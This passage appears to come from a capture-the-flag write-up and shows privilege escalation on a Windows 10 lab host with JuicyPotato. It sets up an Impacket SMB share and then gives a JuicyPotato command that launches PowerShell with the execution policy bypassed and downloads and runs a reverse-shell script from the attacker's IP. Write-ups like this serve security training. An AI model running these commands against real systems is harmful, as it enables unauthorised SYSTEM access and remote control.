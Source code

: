 Let's setup JuicyPotato.

Using systeminfo to get the right CLSID we are on windows 10. 
```
Host Name:                 CONCEAL  
OS Name:                   Microsoft Windows 10 Enterprise                                                            
OS Version:                10.0.15063 N/A Build 15063                                                                 
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation          
OS Build Type:             Multiprocessor Free             
Registered Owner:          Windows User            
```


We will use the CLSID {e60687f7-01a1-40aa-86ac-db1cbf673334}

Let's setup a smb server to copy our file.

```         
┌──(kali㉿kali)-[~/Hacking/tmp/smb]
└─$ smbserver.py share . -smb2support
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

On the remote machine : 
```
net use x: \\10.10.14.13\share 
cd x:\
```

With JuicyPotato I always use the same payload to execute my payload. Put our previous payload in a file, and execute it by downloading it on the remote machine.

Now, we can use JuicyPotato.

```
.\JuicyPotato.exe -l 1337 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.13:4444/rev.ps1')" -t *
```

![](img/Pasted%20image%2020210821153518.png)

Rooted.